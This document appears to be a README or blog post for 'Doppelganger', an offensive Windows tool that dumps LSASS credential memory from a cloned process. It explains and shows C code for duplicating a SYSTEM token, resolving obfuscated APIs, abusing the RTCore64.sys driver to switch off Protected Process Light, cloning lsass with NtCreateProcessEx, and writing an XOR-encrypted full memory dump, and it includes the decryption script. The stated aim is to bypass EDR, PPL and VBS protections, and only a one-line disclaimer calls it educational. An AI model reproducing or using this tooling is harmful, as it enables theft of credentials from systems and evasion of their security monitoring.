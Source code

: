 ```yaml
---
title: "Doppelganger"
date: 2025-04-02T15:28:21+02:00
draft: false
---
```


# Doppelganger Program: An Advanced LSASS Dumper with Process Cloning

## Author: vari.sh

---

![Doppelganger](/images/doppelganger.png)

## Overview

The **Doppelganger Program** is an advanced Windows utility designed to obtain an LSASS (Local Security Authority Subsystem Service) dump from a cloned process, rather than the original one. By using process cloning techniques, the tool aims to bypass PPL (Process Protected Light), VBS (Virtualization Based Security), EDR/XDR detection mechanisms that typically monitor interactions with `lsass.exe`.

The program achieves this by:
- Obtaining a SYSTEM token through token duplication.
- Loading clean versions of Windows DLLs to avoid detection.
- Cloning the LSASS process using `NtCreateProcessEx`.
- Disabling PPL (Protected Process Light) protection on `lsass.exe`.
- Creating an LSASS dump using `MiniDumpWriteDump()`.
- Encrypting the dump file using XOR encryption to further avoid detection.

---

## Features

- **Process Cloning:** Uses `NtCreateProcessEx` to clone `lsass.exe` and avoid detection.
- **XOR Encryption:** Dumps are encrypted with a predefined XOR key before being written to disk.
- **Driver Interaction:** Leverages `RTCore64.sys` for direct memory access to disable PPL.
- **Token Manipulation:** Elevates to SYSTEM privileges to access LSASS.
- **DLL Offuscation:** Loads DLLs using encrypted strings to bypass signature-based detections.

---

## Installation

The Doppelganger Program is written in C and is intended to be compiled using Visual Studio. The repository is structured as follows:

```
doppelganger/
│
├── includes/          # Header files (.h)
├── src/               # Source files (.c)
├── build/             # Output binaries
├── utils/             # Utility scripts (e.g., decryptor)
└── README.md          # Documentation
```

### Compilation

Compile the project in Visual Studio using the provided solution file.
Ensure to have the `RTCore64.sys` driver present and accessible by the program.

---

## Code Breakdown

### 1. Resolving APIs

The tool resolves critical Windows APIs by decrypting their names from encrypted strings and dynamically loading them with `CustomGetProcAddress()`.

```c
// Example of resolving API pointers
BOOL success =
    ResolveApiFromDll(hKernel32, P32F_ENC, sizeof(P32F_ENC), (void**)&pP32F) &&
    ResolveApiFromDll(hNtdll, NTCPE_ENC, sizeof(NTCPE_ENC), (void**)&pNTCPX) &&
    ResolveApiFromDll(hAdvapi32, OPTK_ENC, sizeof(OPTK_ENC), (void**)&pOPTK);

if (!success) {
    log_error("Failed to resolve one or more APIs.");
    return FALSE;
}
```

### 2. Token Duplication

To interact with `lsass.exe`, the tool impersonates SYSTEM using duplicated tokens.

```c
HANDLE hSystemToken = NULL;
if (!GetSystemTokenAndDuplicate(&hSystemToken)) {
    log_error("Failed to duplicate SYSTEM token.");
    return 1;
}
```

### 3. Process Cloning

Using `NtCreateProcessEx`, the tool creates a clone of `lsass.exe`.

```c
NTSTATUS status = pNTCPX(
    &hClone,
    PROCESS_ALL_ACCESS,
    &objAttr,
    hLsass,
    0,
    NULL,
    NULL,
    NULL,
    FALSE
);
```

### 4. Disabling PPL

Protected Process Light (PPL) protection is disabled by directly modifying memory using the `RTCore64.sys` driver.

```c
WriteMemoryPrimitive(Device, 1, eproc + offs.Protection - 2, 0x00); // SignatureLevel
WriteMemoryPrimitive(Device, 1, eproc + offs.Protection - 1, 0x00); // SectionSignatureLevel
WriteMemoryPrimitive(Device, 1, eproc + offs.Protection, 0x00); // Protection
log_success("PPL disabled (0x00 written)");
```

After the cloning, the values will be restored.

### 5. Creating the Dump

Finally, a memory dump of the cloned `lsass.exe` process is created and encrypted.

```c
BOOL dumped = pMDWD(
    hClone,
    clonedPID,
    hTempFile,
    MiniDumpWithFullMemory,
    NULL,
    NULL,
    NULL
);
```

---

## Decryption

A simple Python script is provided to decrypt the dumped files.

```python
import sys

XOR_KEY = b"0123456789abcdefghij"

def xor_decrypt(data: bytes, key: bytes) -> bytes:
    return bytes([b ^ key[i % len(key)] for i, b in enumerate(data)])

def main():
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <xor_dump_path>")
        sys.exit(1)

    encrypted_path = sys.argv[1]
    output_path = encrypted_path + ".dec"

    with open(encrypted_path, "rb") as f:
        data = f.read()

    decrypted = xor_decrypt(data, XOR_KEY)

    with open(output_path, "wb") as f:
        f.write(decrypted)

    print(f"Decryption successful. Output written to: {output_path}")

if __name__ == "__main__":
    main()
```

---

## Conclusion

The Doppelganger Program demonstrates how process cloning, API obfuscation, and memory manipulation can be used to bypass traditional detection mechanisms. The combination of techniques makes it effective at retrieving sensitive memory data even on systems protected by anti-tampering mechanisms.

---

## Disclaimer

This project is for educational purposes only. Use responsibly and only in environments where you have explicit permission to test security mechanisms.

